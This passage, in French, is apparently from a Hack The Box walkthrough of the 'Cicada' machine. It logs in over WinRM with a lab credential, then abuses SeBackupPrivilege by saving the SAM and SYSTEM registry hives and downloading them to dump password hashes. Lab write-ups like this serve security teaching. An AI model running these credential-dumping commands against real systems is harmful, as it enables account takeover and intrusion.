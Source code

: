![WinRM valid credentials](/images/HTB-Cicada/winrm_valid.png)

`emily.oscars:Q!3@Lp#M6b*7t*Vt` sont les seules informations d'identification valides. 

```
evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

![emily.oscars WinRM login](/images/HTB-Cicada/foothold.png)

Le drapeau utilisateur peut être lu à l'adresse suivante : `C:\Users\emily.oscars.CICADA\Desktop\user.txt`.

Nous observons que `emily.oscars` possède le privilège `SeBackupPrivilege` et avec `net user emily.oscars` nous apprenons qu'elle est membre du groupe `Backup Operators`.

> Bien que les membres du groupe **Backup Operators** bénéficient par défaut du privilège **SeBackupPrivilege**, l'inverse n'est pas toujours vrai. Un utilisateur peut avoir le privilège **SeBackupPrivilege** sans être membre du groupe **Backup Operators** parce que les privilèges sous Windows peuvent être attribués explicitement à des utilisateurs ou à des groupes indépendamment de l'appartenance à un groupe.

![emily.oscars group membership](/images/HTB-Cicada/backup_operators_group.png)


## Elévation de Privilèges

Puisque l'utilisateur que nous contrôlons a le privilège `SeBackupPrivilege` et est membre du groupe `Backup Operators`, nous pouvons accéder au drapeau root par deux méthodes différentes.

### Méthode Hash Dump

Cet [article](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) explique comment abuser de `SeBackupPrivilege`.

Avec le shell `emily.oscars`, exécutez les commandes suivantes

```
mkdir Temp
```

![Temp directory creation](/images/HTB-Cicada/Temp_dir.png)

```
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

![SAM & SYSTEM registries](/images/HTB-Cicada/sam_&_system.png)

```
cd Temp
download sam
download system
```
